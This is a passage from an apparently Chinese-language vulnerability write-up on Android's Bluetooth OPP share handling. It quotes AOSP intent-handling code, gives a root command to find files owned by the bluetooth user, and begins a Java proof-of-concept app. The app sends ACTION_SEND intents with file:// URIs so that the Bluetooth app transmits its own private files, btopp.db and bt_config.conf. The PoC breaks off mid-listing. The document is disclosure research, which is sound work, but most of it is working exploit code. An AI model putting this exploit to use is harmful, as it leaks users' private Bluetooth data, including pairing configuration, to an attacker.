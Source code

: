 ```java
             Log.w(TAG,"Error trying to do set text...File not created!");
             finish();
             return;
         }
     } else {
         Log.e(TAG, "type is null; or sending file URI is null");
         finish();
         return;
     }
 } else if (action.equals(Intent.ACTION_SEND_MULTIPLE)) {
     final String mimeType = intent.getType();
     final ArrayList<Uri> uris = intent.getParcelableArrayListExtra(Intent.EXTRA_STREAM);
     if (mimeType != null && uris != null) {
         if (V) Log.v(TAG, "Get ACTION_SHARE_MULTIPLE intent: uris " + uris + "\n Type= "
                     + mimeType);
         Thread t = new Thread(new Runnable() {
             public void run() {
                 BluetoothOppManager.getInstance(BluetoothOppLauncherActivity.this)
                     .saveSendingFileInfo(mimeType,uris, false);
                 //Done getting file info..Launch device picker
                 //and finish this activity
                 launchDevicePicker();
                 finish();
             }
         });
         t.start();
```

那么，传入蓝牙App私有数据试试！先寻找bluetooth所拥有的私有文件，

> angler:/ # find /data -user bluetooth -exec ls -al {} \; 2> /dev/null

可以选定两个bluetooth所拥有、有实质内容的文件作为发送对象，file:///data/user_de/0/com.android.bluetooth/databases/btopp.db和file:///data/misc/bluedroid/bt_config.conf

很快可以写出PoC

```java
public class MainActivity extends AppCompatActivity {
    Button m_btnSendPriv = null;
    Button m_btnSendMPriv = null;
    private final static String PRIV_FILE_URI1 = "file:///data/user_de/0/com.android.bluetooth/databases/btopp.db";
    private final static String PRIV_FILE_URI2 = "file:///data/misc/bluedroid/bt_config.conf";
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        m_btnSendPriv = (Button)findViewById(R.id.send_private);
        m_btnSendPriv.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View view) {
                Intent intent = new Intent(Intent.ACTION_SEND);
                intent.setType("text/plain");
                Uri uri = Uri.parse(PRIV_FILE_URI1);
                intent.putExtra(Intent.EXTRA_STREAM, uri);
                intent.setComponent(new ComponentName("com.android.bluetooth",
                     "com.android.bluetooth.opp.BluetoothOppLauncherActivity"));
                startActivity(intent);
            }
        });
        m_btnSendMPriv = (Button)findViewById(R.id.send_private_multiple);
        m_btnSendMPriv.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View view) {
```